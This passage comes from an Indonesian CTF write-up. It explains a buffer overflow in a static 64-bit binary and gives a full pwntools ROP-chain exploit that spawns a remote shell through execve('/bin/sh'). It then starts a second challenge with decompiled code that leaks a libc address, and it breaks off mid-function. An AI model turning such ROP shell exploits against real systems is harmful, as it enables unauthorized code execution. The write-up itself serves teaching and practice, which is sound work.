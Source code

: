 ```
    PIE:      No PIE (0x400000)
```
Challenge dari program ini sangat sederhana, terdapat `Buffer Overflow` vulnerability di fungsi `read(0LL, v1, 256LL)` jadi cukup melakukan Return-Oriented Programming (ROP) Chain `execve("/bin/sh", 0, 0)` dengan `Accumulator Register ($RAX) = 59` dengan instruksi-instruksi assembly yang ada di program tersebut untuk mendapatkan `Arbitrary Code Execution`.

#### POC
```python
#!/usr/bin/python3
from pwn import *
exe = './static'
elf = context.binary = ELF(exe, checksec = 0)
context.log_level = 'debug'
host, port = "nc static.chal.cyberjousting.com 1350".split(" ")[1:3]
io = remote(host, port)
s = lambda a: io.send(a)
com = lambda: io.interactive()

poprdi = 0x0000000000401fe0
poprsi = 0x00000000004062d8
bss = 0x49d150
poprdx_rbp = 0x45e467
poprax = 0x000000000041069c
syscall = 0x401194
movrdxtorsipointer = 0x460c42
p = flat(cyclic(0x12), poprsi, bss, poprdx_rbp, b'/bin/sh\x00', 0, movrdxtorsipointer, poprax, 59, poprdi, bss, poprsi, 0, poprdx_rbp, 0, 0, syscall)
s(p)
com()
```
![chall-sc](https://hackmd.io/_uploads/HJWKBewX0.png)

## Numbersss
![chall-sc](https://github.com/jonscafe/jonscafe.github.io/assets/118645827/98f9c557-fd93-413b-b5d1-97f90855adc6)

Diberikan sebuah Executable and Linkable Format (ELF) 64-bit dan Dockerfile. Langsung saja kita decompile ELFnya.
### main
```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  vuln(argc, argv, envp);
  return 0;
}
```
### vuln
```c
__int64 vuln()
{
  __int64 result; // rax
  char v1[16]; // [rsp+0h] [rbp-10h] BYREF

  printf("Free junk: %p\n", &printf);
  puts("How many bytes do you want to read in?");
  __isoc99_scanf("%hhd", &length);
  if ( length > 16 )
  {
    puts("Too many bytes!");
    exit(1);
  }
```